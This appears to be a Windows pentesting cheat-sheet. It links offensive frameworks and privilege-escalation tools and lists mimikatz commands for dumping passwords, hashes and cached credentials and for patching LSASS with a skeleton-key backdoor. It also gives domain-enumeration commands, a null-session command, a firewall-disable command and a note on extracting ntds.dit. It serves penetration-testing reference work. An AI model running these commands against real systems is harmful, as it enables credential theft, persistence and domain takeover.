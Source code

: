 # WINDOWS

* [PowerSploit](https://github.com/PowerShellMafia/PowerSploit) - collection of powershell modules for pentesting
* [Nishang](https://github.com/samratashok/nishang) - Powershell framework and collection of scripts and payloads for pentesting
* [USBDumper](http://www.secuobs.com/USBDumper.rar) - silently copies contents of every connected USB device to the system
* [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) - a swiss army knife for pentesting Windows/Active Directory environments
* [Kon-Boot](http://www.piotrbania.com/all/kon-boot/) - silently bypass the authentication process of Windows based OS

Privilege Escalation
--------------------

* [Windows Privilege Escalation Fundamentals](http://www.fuzzysecurity.com/tutorials/16.html)
* [Potato](https://github.com/foxglovesec/Potato) - privilege escalation on Windos 7, 8, 10, Server 2008, Server 2012
* [AccessEnum](https://technet.microsoft.com/en-us/sysinternals/bb897332.aspx) - tool for analyzing files/dirs user rights
* [Autoruns](http://technet.microsoft.com/en-us/sysinternals/bb963902.aspx ) - tool for managing autorun apps
* [AccessChk](https://technet.microsoft.com/en-us/sysinternals/bb664922.aspx)
* [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) - clearinghouse of common Windows privesc vectors that rely on misconfigurations
* `whoami /groups` shows info about which groups you are in, which integrity level your process is run at

Post-Exploitation
-----------------

* [Post-Exploitation with "Incognito"](http://hardsec.net/post-exploitation-with-incognito/?lang=en)
* [PowerShellEmpire](https://github.com/powershellempire/empire) - post-exploitation agent  

If have DC access, use CrackMapExe module to extract ntds.dit (contains AD data) and other modules.  

* [mimikatz](https://github.com/gentilkiwi/mimikatz) - extract plaintext passwords, hashes, PIN codes, kerberos tickets from memory; pass-the-hash. Useful commands:  

`privilege::debug`  
`sekurlsa::LogonPasswords full`  
`!lsadum::cache` - dump cached credentials  
`!lsadump:sam` - dump local user account password hashes  
`misc::cmd` - re-enable command shell, if disabled in registry  
`!misc::memssp` - patch LSASS to log credentials after authentication; see: c:\windows\system32\mimilsa.log  
`misc::skeleton` - (for DCs only) patch LSASS to make "mimikatz" password work for all users on the domain  
`process::suspend [pid]` - suspend a process  
`process::resume [pid]` - resume execution of a progress  

Windows commands:  

`net view /DOMAIN` - find out which domain I trust  
`net view /DOMAIN:[domain]  
net group "domain computers" /DOMAIN` - see which hosts are in a domain  
`nltest /dclist:[domain]` - see which hosts are DCs for a domain  
`nslookup [name]  
ping -n 1 -4 [name]` - map a NetBIOS name to an IPv4 addresses  
`nltest /domain_trusts  
nltest /server:[address] /domain_trusts` - map domain trusts  
`net view \\[name]` - list shares on a host  
`net group "enterprise admins" /DOMAIN` - show ent admins  
`net group "domain admins" /DOMAIN` - show domain admins  
`net localgroup "administrators" /DOMAIN` - show local admins  

Mimikatz:

1) Run as admin
2) `privilege::debug`
3) `sekurlsa::LogonPasswords full`

Null Session
------------

Open ports? UDP 137 & 138, TCP 139  
`net use \\host\IPC$ "" "/user:"`

Other
-----

Turn off firewall: `NetSh Advfirewall set allprofiles state off`  
